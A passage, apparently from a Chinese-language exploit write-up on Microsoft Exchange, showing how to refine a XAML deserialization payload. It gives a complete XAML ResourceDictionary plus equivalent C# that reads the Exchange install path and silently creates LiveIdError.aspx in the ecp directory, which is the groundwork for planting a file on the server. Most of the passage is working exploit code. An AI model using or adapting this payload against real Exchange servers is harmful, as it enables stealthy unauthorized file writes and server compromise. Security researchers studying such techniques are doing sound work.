 编译执行访问，均可在ecp目录创建LiveIdError.aspx文件。

### <a class="reference-link" name="0x43%20%E4%BC%98%E5%8C%96%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5"></a>0x43 优化文件写入

显然，粗暴的方式有着各种各样的缺点，对于完美主义者，还需要找到其他方式进行规避。

我们现在已知绝对路径存放于`%ExchangeInstallPath%`，那么只要将其取出作为`ObjectDataProvider.MethodParameters`的第一个参数即可。但通过ObjectDataProvider调用方法的后，存放于ResourceDictionary中的实际上还是一个ObjectDataProvider实例，直接将其作为参数传入会抛出异常，所以需要一个能够调用方法且返回类型本身的方式。

在查询xaml官方文档后可以找到`x:FactoryMethod`指令，该指令用于对象初始化。其实现为通过调用静态方法并强制转换为xaml元素指定的对象类型，完全符合需求。

那么解决方案也就很简单了：在`s:String`元素上以`FactoryMethod`方式调用`[mscorlib]System.Environment::GetEnvironmentVariable`获取安装路径，之后以同样方式调用`[mscorlib]System.String.Concat`拼接文件名，最后调用`AppendAllText`写入文件。

完整的xaml如下：

```
&lt;ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml" 
    xmlns:s="clr-namespace:System;assembly=mscorlib"
    xmlns:w="clr-namespace:System.Web;assembly=System.Web"&gt;
  &lt;s:String x:Key="a" x:FactoryMethod="s:Environment.GetEnvironmentVariable" x:Arguments="ExchangeInstallPath"/&gt;
  &lt;s:String x:Key="b" x:FactoryMethod="Concat"&gt;
    &lt;x:Arguments&gt;
      &lt;StaticResource ResourceKey="a"/&gt;
      &lt;s:String&gt;ClientAccessecpLiveIdError.aspx&lt;/s:String&gt;
    &lt;/x:Arguments&gt;
  &lt;/s:String&gt;
  &lt;ObjectDataProvider x:Key="x" ObjectType="`{`x:Type s:IO.File`}`" MethodName="AppendAllText"&gt;
    &lt;ObjectDataProvider.MethodParameters&gt;
      &lt;StaticResource ResourceKey="b"/&gt;
      &lt;s:String&gt;&lt;/s:String&gt;
    &lt;/ObjectDataProvider.MethodParameters&gt;
  &lt;/ObjectDataProvider&gt;
  &lt;ObjectDataProvider x:Key="c" ObjectInstance="`{`x:Static w:HttpContext.Current`}`" MethodName=""/&gt;
  &lt;ObjectDataProvider x:Key="d" ObjectInstance="`{`StaticResource c`}`" MethodName="get_Response"/&gt;
  &lt;ObjectDataProvider x:Key="e" ObjectInstance="`{`StaticResource d`}`" MethodName="End"/&gt;
&lt;/ResourceDictionary&gt;
```

此xaml等同于以下C#代码：

```
string a=Environment.GetEnvironmentVariable("ExchangeInstallPath");
string b=string.Concat(a,"ClientAccessecpLiveIdError.aspx");
File.AppendAllText(b,"");
HttpContext.Current.Response.End();
```

编译执行访问，可在未知绝对路径的情况下无感知地创建我们需要的空白文件。
